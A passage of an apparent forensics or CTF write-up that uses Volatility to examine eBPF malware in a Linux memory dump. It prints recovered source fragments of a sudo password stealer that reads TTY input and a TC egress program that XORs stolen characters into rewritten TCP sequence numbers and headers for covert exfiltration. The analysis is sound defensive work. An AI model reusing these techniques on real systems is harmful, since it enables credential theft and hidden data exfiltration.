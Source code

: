 ```
  if (!(current = bpf_get_current_task_btf())) {
    bpf_printk("error: bpf_get_current_task_btf\n");
  if (!(regs = (struct pt_regs*)bpf_task_pt_regs(current))) {
    bpf_printk("error: bpf_task_pt_regs\n");
pt_regs
orig_ax
...
```
While the lineinfo is not equivalent to source code, it seems not too
unlikely that the syscall program might be targeting only `sudo`.
We could always check the assembly and maps to be sure.

Checking the maps contents again, we also see a mention of TTYs:
```
# vol -f /io/dumps/dec8719859dfc45db1feaf4dedb3f05a.elf linux.bpf_listmaps --id 7 --dump
# cat -- -1.0x888006823400_map_7
(handle_sys_exit_read.____fmt.11) b'info: not a tty\\n\\x00'\n (handle_sys_exit_read.____fmt.12) b'info: tty\\n\\x00'\n
```
(if the file is not there, run the `vol -f ...` command again), which leads us to:
```
# strings /io/dumps/dec8719859dfc45db1feaf4dedb3f05a.elf | rg ': not a tty' -C10
...
 if (!filp) {
    bpf_printk("error: fd to filp\n");
  if (bpf_probe_read_kernel(&f, sizeof(f), filp) || f == NULL) {
    bpf_printk("error: filp to file\n");
  if (!(f_op = (struct file_operations*)BPF_CORE_READ(f, f_op))) {
    bpf_printk("error: file to f_op\n");
  if (&tty_fops != (void*)f_op) {
    bpf_printk("info: not a tty\n");
    bpf_printk("info: tty\n");
...
```
Assembling the disparate pieces, it seems like the syscall program is
looking for situations where `sudo` is receiving characters from a TTY,
i.e., we are dealing with a password stealer.

Turning to the TC program, the format string
`tc_egress: info: sending data to %` leads us to:
```
# strings /io/dumps/dec8719859dfc45db1feaf4dedb3f05a.elf | rg 'info: sending data to' -C15
...
  if (bpf_ntohs(l4->source) == 22)
    c = bpf_map_lookup_elem(&rb, &send_pos);
    if (!c || *c == '\0')
    buf[i] = *c;
    err = bpf_map_update_elem(&rb, &send_pos, &zero, BPF_ANY);
    if (err) {
      bpf_printk("tc_egress: error: cannot delete elem (%ld)", err);
    send_pos = (send_pos + 1) % BUF_SZ;
  bpf_printk("tc_egress: info: sending data to %lx:%u:%u",
  bpf_printk("tc_egress: info: total of %d chars <%s>", i, buf);
  if ((__u32)l4->ack_seq == 0) {
    xorkey = (__u32)l4->ack_seq;
  *(__u32*)buf ^= xorkey;
  err = set_tcp_ip_addr(ctx, conn.addr, IP_DST_OFF);
0:9:0:1
    bpf_printk("tc_egress: error: failed to set ip address");
  err = set_tcp_port(ctx, conn.d_port, TCP_DPORT_OFF);
    bpf_printk("tc_egress: error: failed to set destination port");
  err = set_tcp_port(ctx, conn.s_port, TCP_SPORT_OFF);
    bpf_printk("tc_egress: error: failed to set source port");
  err = set_tcp_seq(ctx, *(__u32*)buf);
    bpf_printk("tc_egress: error: failed to set sequence number");
```
